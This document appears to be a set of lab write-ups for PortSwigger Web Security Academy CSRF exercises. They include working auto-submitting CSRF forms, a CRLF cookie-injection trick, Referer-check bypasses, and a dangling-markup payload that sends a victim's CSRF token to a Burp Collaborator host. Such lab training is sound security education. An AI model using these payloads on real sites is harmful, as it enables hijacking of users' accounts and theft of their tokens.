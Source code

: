 
# Lab: CSRF where token validation depends on request method

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://aca21fc71f70a596802ed12c0003007e.web-security-academy.net/my-account/change-email?email=asdsad&#64;sadfgsdf&#46;comd" method="GET">
      <input type="hidden" name="email" value="asdsad&#64;sadfgsdf&#46;comd" />
      <input type="hidden" name="csrf" value="IFWKxYWLDSFyyoUe11vrWWTqAh4BWWcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Lab: CSRF where token validation depends on token being present

1. We see that when we can successfully change the email **without** the csrf token present in the request
2. We go to the exploit server and post the HTML with the change email request (without the csrf field)
3. We Store and then call "Deliver to victim"

The code:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac3e1fb21f51d6f6c0e5539d00d400c4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdfaaaaaaaf&#64;admin&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


# Lab: CSRF where token is not tied to user session

This lab does not validate the csrf token belong to the specific session, just that the csrf token is valid, this means that if we have a valid csrf token we can use it to achieve XSS and change email of another user with XSS (without his csrf token).

To apply this we simply click on change mail, log the interaction and look at the HTML to see the most recent (and still valid - unused) csrf token, with it we build an HTML with the CSRF exploit (that sends that csrf token) and send it to the victims computer


# Lab: Reflected XSS protected by CSP, with dangling markup attack

After a quick look around we notice that we can send to my-account a GET email parameter that is vulnerable to dangling markup attack (this was noticed because the email is sent in the change email request + the email tag has an empty value). 

Exploit this reflected XSS can be done like so:
```http
https://your-lab-id.web-security-academy.net/my-account?email="><table background='
```
This will allow us to create a malicious page and send it to the user, hopefully to get the csrf token back (which is below the email tag in the html)

```html
<script>
location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';
</script>
```
After we got the request back from the user we get:
```html
/?">                            <input required type="hidden" name="csrf" value="N7NbGoKZPCGpo2AVtBK86u8qYb5dBlwl">                            <button class=
```
as the GET payload, this includes the csrf token and now we can use this token to construct an HTML page to the victim to change his email like so:
```html
<!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac331fe31eeb8b0580f50f0800f000d2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="N7NbGoKZPCGpo2AVtBK86u8qYb5dBlwl" />
      <input type="hidden" name="email" value="asdsad&#64;sadfgsdf&#46;com&quot;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

# Lab: CSRF where token is tied to non-session cookie

Upon trying the update email functionality we notice that changing the csrfkey changes the csrf token - which means that the cookie and key are connected (and not the session)

if we log in the second account and change the mail with the csrf token + the csrfkey cookie of the first user, we successfully change the second user
's email. 

we will now create a malicious URL:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac831ff81e51bb8e808ae49800460067.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdfasdf&#64;asfdgasdf" />
      <input type="hidden" name="csrf" value="SRSd3qRKNz6ML8fLJOI5LvaGHUn8jpjj" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
<img src="https://ac831ff81e51bb8e808ae49800460067.web-security-academy.net//?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
    </script>
  </body>
</html>
```

This way we make sure we first set the cookie using the src and the (after not finding an image there) we submit the document and change the victim's email address

# Lab: CSRF where Referer validation depends on header being present

We first note that our email is changed as well if the referer header is omitted.

Next we will bypass the CSRF mitigation - referer check that checks the Referer by inserting meta tag like so:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acdf1f501ee6baae801726ef000200fe.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdfasdf&#64;asfdgasdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
This will prevent the following requests from this page to have a referer header and sucecessfully change the email

# Lab: Validation of Referer can be circumvented
We noticed using repeater that when sending a post request to change-email, the referer is validated by the server.

The validation was not perfect, however, the server accepted URLs ending with the valid referer. 
```python
# Valid Referer:
https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/
# Also valid Referer:
123123123https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/
```

Then we created a CSRF site using the burpsuite tool, making 2 minor changes:
Head:
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```
Body:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account')</script>
    <form action="https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123123&#64;123123" />
      <input type="submit" value="Submit request" />
      <img src
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

